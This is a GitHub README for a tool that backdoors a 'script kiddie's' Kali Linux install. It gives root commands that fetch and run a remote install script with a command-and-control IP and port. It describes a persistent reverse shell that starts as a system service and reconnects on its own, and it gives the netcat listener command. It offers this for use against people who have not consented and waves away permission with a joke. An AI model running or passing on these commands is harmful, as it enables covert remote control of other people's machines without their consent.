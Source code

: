# skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

Also **DO NOT use this against people who are not script-kiddies** (or skids, both mean the same). If you use this on let's say your friend who is not an arrogant skid *you'll be the greatest asshole of all time to them*.

If you want to use this for remote administration, consider setting up SSH.

If using a reverse-shell is your only *working* alternative to SSH, then go ahead (as long as you have permission by the owner of the machine).

*Hey, aren't you already contradicting yourself by saying "you need to have permission"?*
Yes I am absolutely are. However, due to the nature of skids (blindly running commands), they would get themselves in such situations anyways, if not worse. You can see it like this: The skid gives you permission indirectly because they'll happily run any command as root anyways.
One day they will learn the hard way...

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | bash
```